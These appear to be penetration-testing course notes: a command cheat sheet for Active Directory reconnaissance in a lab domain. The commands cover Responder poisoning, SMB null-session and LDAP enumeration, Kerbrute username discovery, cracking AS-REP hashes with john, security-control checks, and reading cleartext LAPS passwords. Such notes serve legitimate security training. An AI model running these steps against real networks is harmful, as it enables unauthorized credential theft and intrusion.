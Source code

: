 ```yaml
---

---
```

### Content
1. [Identifying Live Hosts](#identifying-live-hosts)
2. [Internal AD Username Enumeration](#internal-ad-username-enumeration)
3. [Enumerating & Retrieving Password Policies](#enumerating-&-retrieving-password-policies)
	1. [From Linux](#from-linux)
	2. [From Windows](#from-windows)
4. [Enumerating Security Controls](#enumerating-security-controls)
---
## Identifying Live Hosts

If we have a compromised host inside the domain, we can run `wireshark` or `tcpdump` to listen to the network
``` bash
$ sudo -E wireshark
$ sudo tcpdump -i <network_interface>
# Watch for MDNS and ARP packets

$ sudo responder -I <network_interface> -A

# Check live hosts
$ fping -asgq 172.16.5.0/23

# After creating a list from the live hosts from fping, scan them with nmap
$ sudo nmap -v -A -iL hosts.txt -oN output.txt
```
---
## Internal AD Username Enumeration
Gathering usernames list for the password spray can be done with several ways:
- Leverage `SMB NULL session` to retrieve a complete list of domain users from the domain controller.
- Leverage `LDAP anonymous bind` to query LDAP anonymously and pull down the domain user list.
- Use `Kerbrute` to validate users utilizing a word list
	- from a source such as the [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames).
	- gathered by using a tool such as [linkedin2username](https://github.com/initstring/linkedin2username) to create a list of potentially valid user.
- Use `Responder` to conduct LLMNR,NBT-NS poisoning to obtain set of credentials.

``` bash
# Abuse SMB NULL session
$ enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

$ rpcclient -U "" -N 172.16.5.5
rpcclient $> enumdomusers 
# Copy the output to a file, then clean the output to have only the usernames
$ cat rpc-output | cut -f2 -d "[" | cut -f1 -d "]" > clean-rpc-output

$ crackmapexec smb 172.16.5.5 --users

# Abuse LDAP Anonymous bind
$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

$ ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

#### Kerbrute
- [Kerbrute](https://github.com/ropnop/kerbrute) can be a stealthier option for domain account enumeration.
- Kerbrute sends a request for TGT ticket to the KDC without Kerberos Pre-Authentication to perform username enumeration.
	- If the KDC responded with the error PRINCIPAL UNKNOWN, the username is invalid.
	- If the KDC prompts for Kerberos Pre-Authentication, this signals that the username exists.
	- If the KDC responded with an AS-REP message, this signals that the user is vulnerable to AS-REP Roasting. 
- Using `jsmith.txt` or `jsmith2.txt` user lists from [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames).

``` bash
$ sudo git clone https://github.com/ropnop/kerbrute.git
$ make help
$ make all
$ ./kerbrute_linux_amd64 userenum -d inlanefreight.local --dc 172.16.5.5 jsmith.txt > valid_ad_users
# To clean the output for further use:
$ awk '/VALID USERNAME:/ {split($NF,a,"@"); print a[1]}' valid_ad_users > clean
```

If a user has no pre auth required and Kerbrute extracted his krb5asrep, we can brute force his plain text password
``` Bash
# Add the hash to a file
$ cat > krb5asrep_file
# Crack it with john
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5asrep krb5asrep_file
```


Using Kerbrute for username enumeration will generate event ID [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768). This will only be triggered if [Kerberos event logging](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-kerberos-event-logging) is enabled via Group Policy. Defenders can tune their SIEM tools to look for an influx of this event ID, which may indicate an attack.

There is also [linkedin2username](https://github.com/initstring/linkedin2username) to mash up possible usernames from a company's LinkedIn page.

---
## Enumerating & Retrieving Password Policies


> If you are on an internal machine but don’t have valid domain credentials, you can look for SMB NULL sessions or LDAP anonymous binds on Domain Controllers.
> If we have an SMB NULL session, LDAP anonymous bind, or a set of valid credentials, we can enumerate the password policy.
#### From Linux
``` bash
# Enumerating the Password Policy - Credentialed
$ crackmapexec smb <ip> -u username -p Password --pass-pol

# Enumerating the Password Policy - SMB NULL Sessions

# We can use rpcclient to check a Domain Controller for SMB NULL session access.
$ rpcclient -U "" -N <IP>
# Once connected, we can issue an RPC command such as querydominfo to obtain information about the domain and confirm NULL session access.
rpcclient $> querydominfo
# Obtaining the Password Policy using rpcclient
rpcclient $> getdompwinfo

# Using enum4linux and enum4linux-ng (a rewrite of enum4linux in Python with more features)
$ enum4linux -P 172.16.5.5
$ enum4linux-ng -P 172.16.5.5 -oA output.txt

# Enumerating the Password Policy - LDAP Anonymous Bind 
$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

#### From Windows
``` powershell
# Enumerating SMB Null Session
# Establish a null session from a windows machine and confirm if we can perform more of this type of attack.
PS C:\> net use \\DC01\ipc$ "" /u:""
The command completed successfully.

# We can also use a username/password combination to attempt to connect.
PS C:\> net use \\DC01\ipc$ "password" /u:guest

# Enumerating the Password Policy - net.exe
PS C:\> net accounts

# Enumerating the Password Policy - PowerView.ps1
PS C:\> import-module .\PowerView.ps1
PS C:\> Get-DomainPolicy
```

---
## Enumerating Security Controls

Checking the Status of Defender with Get-MpComputerStatus
``` Powershell
# Check if RealTimeProtectionEnabled parameter is set to True, which means Defender is enabled on the system.
PS C:\> Get-MpComputerStatus
```

Using Get-AppLockerPolicy cmdlet we can see which applications or directories are whitelisted and blacklisted for users to use.
``` Powershell
PS C:\> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

PathConditions      : {%SYSTEM32%\WINDOWSPOWERSHELL\V1.0\POWERSHELL.EXE}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 3d57af4a-6cf8-4e5b-acfc-c2c2956061fa
Name                : Block PowerShell
Description         : Blocks Domain Users from using PowerShell on workstations
UserOrGroupSid      : S-1-5-21-2974783224-3764228556-2640795941-513
Action              : Deny
```

PowerShell [Constrained Language Mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) locks down many of the features needed to use PowerShell effectively, such as blocking COM objects, only allowing approved .NET types, XAML-based workflows, PowerShell classes, and more.
``` Powershell
PS C:\> $ExecutionContext.SessionState.LanguageMode

ConstrainedLanguage
```

### LAPS
[Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) is used to randomize and rotate local administrator passwords on Windows hosts and prevent lateral movement.

enumerate what domain users can read the LAPS password set for machines with LAPS installed and what machines do not have LAPS installed. 
The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) greatly facilitates this with several functions.
``` Powershell
# Enumerate the delegated groups which have access to LAPS passwords  
PS C:\> Find-LAPSDelegatedGroups
OrgUnit                                             Delegated Groups
-------                                             ----------------
OU=Servers,DC=DOMAIN,DC=LOCAL                DOMAIN\Domain Admins
OU=Servers,DC=DOMAIN,DC=LOCAL                DOMAIN\LAPS Admins
OU=Workstations,DC=DOMAIN,DC=LOCAL           DOMAIN\Domain Admins

# Check rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights."
PS C:\htb> Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
EXCHG01.DOMAIN.LOCAL DOMAIN\Domain Admins Delegated
EXCHG01.DOMAIN.LOCAL DOMAIN\LAPS Admins   Delegated

# Search for computers that have LAPS enabled when passwords expire, and even the randomized passwords in cleartext if our user has access.
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN.LOCAL           6DZ[+A/[]19d$F 08/26/2020 23:29:45
EXCHG01.DOMAIN.LOCAL        oj+2A+[hHMMtj, 09/26/2020 00:51:30
```
---